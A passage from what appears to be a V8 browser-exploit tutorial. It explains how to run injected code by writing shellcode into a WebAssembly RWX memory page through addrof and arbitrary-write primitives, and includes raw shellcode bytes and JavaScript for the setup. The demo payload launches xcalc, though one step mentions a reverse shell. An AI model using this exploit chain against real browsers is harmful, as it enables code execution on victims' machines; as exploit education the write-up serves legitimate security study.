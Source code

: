 Getting the raw bytes is also very easy with pwntools:

```python
>>> pwn.asm(sc)
b'h\x01\x01\x01\x01\x814$mb\x01\x01h/xcah/binh/usr\x89\xe3jchxcal1\xc9Qj\x04Y\x01\xe1Q\x89\xe1h\x01\x01\x01\x01\x814$;1\x01\x01hLAY=hDISP1\xd2Rj\x04Z\x01\xe2R\x89\xe2j\x0bX\xcd\x80'
```

If we take the raw bytes of the compiled binary and overwrite the RWX memory page of the WASM VM with it, and then call the entrypoint of the VM, our code will execute and if everything is correct we should start xcalc. The actual shuffling of those bytes is a little messy, but doable. We put our bytecode into an [ArrayBuffer](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/ArrayBuffer), which is used to represent a generic, fixed-length raw binary data buffer. We can instantiate a [DataView](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/DataView) of the ArrayBuffer, and then create a [WebAssembly](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/WebAssembly) object from the DataView, we can have v8 execute that raw bytecode.

So, the final payload follows these steps:

1. Define all the JavaScript primitives we've already worked out.
1. Create a new WebAssembly object, and give it some bytecode (return 42) that will cause v8 to allocate a RWX page for it.
1. Create an instance of that WebAssembly object, and export the embedded assembly `main()` function so it can be called from JavaScript later.
1. Grab the memory address of that instance using our `addrof()` primitive.
1. Using our `arb_write()` primitive, overwrite the 'return 42' shellcode with our reverse shell shellcode into the RWX page so that it can be executed (byte by byte, because our arbitrary write function only writes one at a time)
1. Start the WebAssembly instance by calling the exported `main()` function we got earlier.
1. v8 runs our exploited WebAssembly VM, and executes the shellcode we inserted, which in this case, executes xcalc.
1. Congratulate our nearest self for making it this far


Here's what that part of the exploit looks like:
```javascript
// return 42 compiled to Wasm
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,
    0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,
    0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

// x86 instruction bytes that will push xcalc to the stack and call the execve syscall
var shellcode = new Uint8Array([0x6a, 0x3b, 0x58, 0x99, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x53,
    0x48, 0x89, 0xe7, 0x68, 0x2d, 0x63, 0x00, 0x00, 0x48, 0x89, 0xe6, 0x52, 0xe8, 0x11, 0x00,
    0x00, 0x00, 0x44, 0x49, 0x53, 0x50, 0x4c, 0x41, 0x59, 0x3d, 0x3a, 0x30, 0x20, 0x78, 0x63,
    0x61, 0x6c, 0x63, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05]);
var shellcode_size = shellcode.length + 8; // allow some headroom

// Set up the WebAssembly
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var wasm_main = wasm_instance.exports.main;

// Get the memory address of where Wasm has loaded into memory
var wasm_instance_addr = addrof(wasm_instance) & 0xffffffffn;

// There is a page of memory that is readable, writable and executable 0x68 bytes into the wasm instance.
var rwx_page_addr = arb_read(wasm_instance_addr + 0x68n);

console.log("[+] RWX Wasm page addr: 0x" + rwx_page_addr.toString(16));
console.log("[+] Allocating " + shellcode_size + " byte buffer for shellcode...");
```